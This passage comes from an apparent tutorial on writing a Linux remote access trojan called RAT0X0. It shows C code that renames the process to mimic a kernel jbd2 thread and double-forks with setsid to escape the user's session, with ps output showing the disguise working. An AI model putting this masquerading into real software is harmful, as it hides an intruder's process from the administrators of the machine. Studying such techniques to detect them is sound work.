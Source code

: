 # Getting rid of the terminal
The way to release the terminal associated to the process is to actually leave the current session. I'm not going to go into the details about session and process groups here. In simple words, you start a session when you log-in. Any process you create after that belongs to the session. This allows the system to know which process to kill when the session is closed by the user. Did you ever wonder how the OS magically know what to kill if you just leave your session?

Daemons, and also our cute RAT do not want to get killed when the user closes the session from which they were started... well, daemons are usually started by the system at start up, but just in case you start one of them manually in a terminal. The way to do this is to create a new session for our process. And we do this with the `setsid` system call:

```C
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main (int argc, char *argv[]) {
  printf ("This is RAT0X0 version 0.1\n");
  strcpy (argv[0],"[Jbd2/sda0-8]");
  pid_t pid = fork();
  if (pid!=0) return 0;
  setsid ();
  while (1) usleep (1000);
}
```

Now we can compile and check again:

    $ ps -ax | grep bd2
      358 ?        S      0:27 [jbd2/sda5-8]
      991 ?        S      1:01 [jbd2/sda6-8]
    27496 ?        Ss     0:00 [Jbd2/sda0-8]


Damn, what is that `s` that just popped up?

# Stop being a Process Leader
If you read the man page for `setsid` it says:

> setsid()  creates  a new session if the calling process is not a process group leader.  The calling process is the leader of the new session (i.e., its session ID is made the same as its process ID).  The calling process also becomes the process group leader  of  a new process group in the session (i.e., its process group ID is made the same as its process ID).

Also you can check the man page for `ps` to veryfy what does the `s` means in its output.

Done?... There you go... That is what and where the `s` is/comes from. So, to stop being a session leader for this session, we have to... `fork` again.

```C
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main (int argc, char *argv[]) {
  pid_t pid;
  printf ("This is RAT0X0 version 0.1\n");
  strcpy (argv[0],"[Jbd2/sda0-8]");
  if ((pid = fork()) != 0) return 0;
  setsid(); // Remove TTY
  if ((pid = fork()) != 0) return 0;

  while (1) usleep (1000);
}

```